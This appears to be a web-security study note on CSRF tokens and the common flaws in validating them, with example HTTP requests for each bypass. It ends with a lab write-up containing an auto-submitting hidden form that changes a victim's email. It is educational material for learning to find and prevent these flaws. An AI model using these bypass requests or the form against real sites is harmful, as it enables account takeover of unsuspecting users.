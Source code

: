 A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token.

A common way to share CSRF tokens with the client is to include them as a hidden parameter in a HTML form, for example:

{% highlight HTML %}
<form name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="example@normal-website.com">
	<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> 
	<button class='button' type='submit'> Update email </button>
</form>
{% endhighlight %}
> Some applications place CSRF tokens in HTTP headers, the way the tokens are transmitted have significant impact on the security mechanism as a whole. More info, [How to prevent CSRF vulnerabilities](https://portswigger.net/web-security/csrf/preventing).

When implemented correctly, CSRF Tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of a victim. 

## Common flaws in CSRF token validation
CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens.

### Validation depends on request method
Some applications validate the token when a POST method is used but skip validation when a GET method is used.
The attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
{% highlight HTTP %}
GET /email/change?email=pwned@evil-user.net HTTP/1.1 
Host: vulnerable-website.com Cookie: 

session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
{% endhighlight %}

### Validation depends on token being present
Some applications only validate if a token is present but skip validation if no token is supplied

{% highlight HTTP %}
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
{% endhighlight %}

### CSRF token is not tied to the user session
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

### CSRF token is tied to a non-session cookie
In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

{% highlight HTTP %}
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv 

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
{% endhighlight %}

This situation is harder to exploit but is still vulnerable. If the web site contains any behaviour that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

> The cookie-setting behaviour does not even need to exist within the same web application as the [CSRF vulnerability](https://portswigger.net/web-security/csrf). Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.

### CSRF token is simply duplicated in a cookie
In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defence against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:

{% highlight HTTP %}
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
{% endhighlight %}

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

---

## Executing a CSRF attack

### CSRF vulnerability with no defences
Created a webpage that submitted a form as a POST request that contained a secret input with the vulnerable field to the endpoint of a change-email action. Then a link to this website was added in a comment so if a user clicked it, it would send the request and it would just use their previous session token that the browser remembers.

{% highlight HTML %}
<form method="POST" action="https://wwww.example.net/my-account/change-email">
	<input type="hidden" name="email" value="hacked@exploit.com">
</form>

<script>
	document.forms[0].submit();
</script>
{% endhighlight %}
